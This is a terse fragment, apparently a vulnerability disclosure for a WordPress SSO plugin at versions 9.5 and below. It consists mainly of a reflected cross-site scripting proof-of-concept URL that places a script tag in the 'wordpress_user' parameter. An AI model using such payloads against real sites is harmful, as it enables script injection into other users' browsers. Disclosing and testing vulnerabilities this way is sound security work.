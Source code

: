 <= 9.5

payload: 
```
localhost/plugins/wordpress_sso/pages/index.php?wordpress_user=<script>alert('xss')</script>
```
